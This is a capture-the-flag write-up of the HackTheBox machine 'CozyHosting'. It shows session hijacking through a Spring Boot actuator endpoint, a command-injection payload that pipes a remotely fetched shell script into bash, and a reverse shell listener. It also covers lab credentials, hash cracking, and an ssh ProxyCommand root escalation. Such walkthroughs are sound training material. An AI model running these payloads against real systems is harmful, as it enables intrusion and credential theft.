







# CozyHosting - Easy

Target IP: **10.129.229.88**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.229.88 -v```

Output shows standard port 22 for ssh and port 80 running Nginx 1.18.0.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 redirects us to ```http://cozyhosting.htb```, let's add to ```/etc/hosts``` and navigate.

There doesn't seem to be much other than the login page, which is interesting.





Capturing the request sent out after we attempt authentication, it sets a ```JSESSIONID``` for us and uses simple ```username``` and ```password``` parameters to send our data. If the authentication is unsuccessful, the response redirects us to ```/login?error```, with an error message below the log in form which tells us our credentials are invalid.



There wasn't much to do with the log in form at this moment, so I fuzzed for directories.

We get an unusual 500 error from the ```/error``` directory.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-7ogqrwgxjd]─[/usr/share/wordlists/seclists/Discovery/Web-Content]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cozyhosting.htb/FUZZ -ic -t 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 17ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 17ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 11ms]
admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 10ms]
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 9ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 8ms]
```

Navigating to it, we see an unusual error page. I wonder if we can find something out about the website by searching the error string up.


After a quick search, Google tells us that this is the default error message for Spring Boot applications.

Spring Boot applications have an ```/actuator``` endpoint exposed, where we can get more information. Navigating to ```/actuator/sessions```, we see a session ID for ```kanderson```.



We can steal this and try to get access to ```/admin```.

In the inspector tools in FireFox, we can replace our cookie with ```kanderson```'s.



Navigating to ```/admin``` works, and we are logged in as ```kanderson```.



The website seems static except the "Include host into automatic patching" section, where we are able to specify a hostname and a username.

Entering a dummy hostname and username gives us an error message, which seems like an error message from the OS itself.



This is probably taking our hostname and running an ssh command with a private key on the server, most likely logging in like ```ssh -i [key] user@host```. We can try to inject some commands here.

I did quite a bit of testing here, and here's what I found. First, the hostname field basically had all key command injection characters blocked, which made me try the username field as the injection vector. Secondly, the username field basically only filtered for spaces, which we can replace with ```${IFS}```.

From the template of the command: ```ssh -i [key] username@hostname```, the goal was to terminate the command in the username field and get it to execute what we want, and also separate the ```@hostname``` part of the command out.

Here is the final command that I came up with. To test this, I started a http server on my attack box and injected a connection with ```curl``` in the command.


When sent, we get a connection on our server, confirming injection.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-7ogqrwgxjd]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.229.88 - - [16/Sep/2026 19:12:59] "GET / HTTP/1.1" 200 -
```

Now, we can have the server read a reverse shell script from our attack box, then use the flaw again to execute it, hopefully giving us a shell.

My payload was ```hi;curl${IFS}http://10.10.15.194:8000/shell.sh|bash;```. We use curl to output the file contents then pipe it into bash to run.

After sending the request, we get a shell as the ```app``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-7ogqrwgxjd]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.229.88 60382
bash: cannot set terminal process group (999): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

We find a ```.jar``` file in ```/app```, so let's extract it and look inside. We are not in a writable directory, so we need to extract it in another location: ```app@cozyhosting:/app$ unzip -d /tmp/jar cloudhosting-0.0.1.jar```

We find credentials in this file.

```
app@cozyhosting:/tmp/jar/BOOT-INF/classes$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's try logging in as the ```josh``` user, shown in ```/home```.

That doesn't work, which means we should actually log in to Postgres.

We're in.

```
app@cozyhosting:/tmp/jar/BOOT-INF/classes$ psql -h 127.0.0.1 -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# 
```

Let's list all the databases.

```
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

The ```cozyhosting``` database seems like what we are looking for. We have a ```hosts``` and ```users``` table.

```
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres

(2 rows)
```

Getting the contents in the ```users``` table, we find some hashs. Looking up the $2a$ in hashing algorithms, this is likely Python's bcrypt hashing function.

```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

Let's save these on our attack box and try to crack them.

After a while, we crack the password for ```admin```.

```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib...kVO8dm
Time.Started.....: Wed Sep 16 20:15:15 2026 (35 secs)
Time.Estimated...: Wed Sep 16 20:15:50 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       80 H/s (6.20ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2800/14344385 (0.02%)
Rejected.........: 0/2800 (0.00%)
Restore.Point....: 2784/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: meagan -> j123456

Started: Wed Sep 16 20:15:06 2026
Stopped: Wed Sep 16 20:15:51 2026
```

Let's now try logging in as the ```josh``` user.

We're in!

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-7ogqrwgxjd]─[~]
└──╼ [★]$ ssh josh@10.129.229.88
josh@10.129.229.88's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 17 12:16:14 AM UTC 2026

  System load:           0.083984375
  Usage of /:            56.9% of 5.42GB
  Memory usage:          33%
  Swap usage:            0%
  Processes:             244
  Users logged in:       0
  IPv4 address for eth0: 10.129.229.88
  IPv6 address for eth0: dead:beef::a0de:adff:fe74:9f9


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ whoami
josh
```

We can get the user flag from here.

## Root Flag

We can run ```ssh``` as root with any arguments.

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

A quick look on GTFOBins gets us this payload, which gives us a shell as ```root```.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';/bin/sh 0<&2 1>&2' x
# whoami
root
```

We can get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
